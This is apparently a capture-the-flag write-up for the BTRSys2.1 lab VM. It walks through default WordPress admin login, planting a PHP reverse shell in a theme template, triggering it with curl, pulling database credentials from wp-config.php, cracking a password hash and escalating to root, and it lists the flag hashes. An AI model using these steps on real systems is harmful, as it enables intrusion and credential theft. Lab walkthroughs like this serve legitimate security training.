






# BTRSys2.1

**IP Address:** 192.168.59.50

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 21 | ftp | vsftpd 3.0.3 |
| 22 | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0) |
| 80 | http | Apache httpd 2.4.18 ((Ubuntu)) |

## Exploitation
### Exploit Details (Weak Credentials)
* **Name** - Weak Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

The wordpress admin console can be easily guessed with the credentials being admin / admin. From there we can upload a reverse shell and get limited access as a user account. 

1. Login to the wordpress admin website (http://192.168.59.50/wordpress/wp-admin/) and login using admin / admin. 



2. Navigate to Appearance > Editor. 



3. Click on the link to 404 Template in the right hand side. 



4. Copy / Paste the contents of a php reverse shell over the top of the 404 page then click on Update File. 





5. Initiate the reverse shell. 

Commands
```
curl http://$ip/wordpress/wp-content/themes/twentyfourteen/404.php
```


6. Enuermate the local.txt file. 

Commands
```bash
whoami
cat /home/btrisk/local.txt
```


## Privilege Escalation
### Exploit Details (Found Credentials)
* **Name** - Found Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. We can find the database credentials in the /var/www/html/wordpres/wp-config.php file and use these to enumerate the database. 

Commands
```
grep 'DB_USER' /var/www/html/wordpress/wp-config.php
grep 'DB_PASSWORD' /var/www/html/wordpress/wp-config.php
mysql -u root -prootpassword!
use wordpress;
select * from wp_users;
```



2. Using https://crackstation.net/ we can decrypt the password for the root account in the database (roottoor). We can see that in the display name this is listed as (btrisk) so then we try the password with the btrisk account on the host and we login and then immediately elevate to root permissions. 

Commands
```bash
su btrisk
roottoor
sudo su
roottoor
whoami
cat /root/proof.txt
```


## Loot
```
local.txt
f80ed5c22e1f2ec111d7548afbe9977d
proof.txt
9b74e75345a620c9490b6f6156bffdbb
```